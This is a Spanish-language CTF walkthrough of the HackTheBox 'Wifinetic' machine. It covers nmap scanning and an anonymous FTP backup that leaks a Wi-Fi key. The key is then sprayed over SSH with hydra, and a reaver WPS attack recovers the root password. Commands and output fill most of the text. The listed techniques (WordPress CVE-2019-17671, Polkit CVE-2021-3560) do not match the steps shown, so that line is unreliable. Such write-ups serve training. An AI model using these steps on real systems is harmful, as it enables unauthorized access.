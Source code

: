 ```yaml
---
title: HackTheBox - Wifinetic
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', '']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Wifinetic/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Wifinetic Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Wordpress Drafts (CVE-2019-17671), ByPass Bot Restriction, Polkit (CVE-2021-3560)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Wifinetic/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Wifinetic/02-versions.png)

* Como está habilitada la autenticación 'anónima' en FTP, listamos los ficheros existentes y los descargamos

c. Con los ficheros en nuestra máquina, listamos toda la información posible.

```bash
❯ 7z x backup-OpenWrt-2023-07-26.tar
❯ cat config/wireless
    <SNIP>
    option key 'VeRyUniUqWiFIPasswrd1!'

❯ cat passwd

root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

* Guardamos estos nombres de usuario en una fichero y realizaremos un ataque de fuerza bruta al servicio ssh con hydra

    ```bash
    ❯ cat passwd | awk '{print $1}' FS=':' > users.txt
    ❯ hydra -L users.txt -p 'VeRyUniUqWiFIPasswrd1!' ssh://10.10.11.247 -t 4

    [22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
    ```

### Escalada de Privilegios 💹

a. Contamos con múltiples interfaces de red y vemos una **capability** asignada a 'reaver'

```bash
netadmin@wifinetic:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
    ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)

netadmin@wifinetic:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

> **Reaver** es una herramienta usado para pentesting en redes que tienen habilitado el protocolo WPA/WPA2
{: .prompt-info }

b. Para usar esta herramienta necesitamos una interfaz de red en modo monitor 'mon0', la dirección MAC y el canal en el cual opera esta interfaz

```bash
netadmin@wifinetic:~$ iw dev

<SNIP>
phy#0
    Interface wlan0
        ifindex 3
        wdev 0x1
        addr 02:00:00:00:00:00
        ssid OpenWrt
        type AP
        channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
        txpower 20.00 dBm

netadmin@wifinetic:~$ reaver  -i mon0 -b 02:00:00:00:00:00 -c 1 -vv

<SNIP>
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

* Con la credencial antes obtenida podemos acceder como root al sistema

    ```bash
    netadmin@wifinetic:~$ su root
    Password: WhatIsRealAnDWhAtIsNot51121!
    root@wifinetic:/home/netadmin#
    ```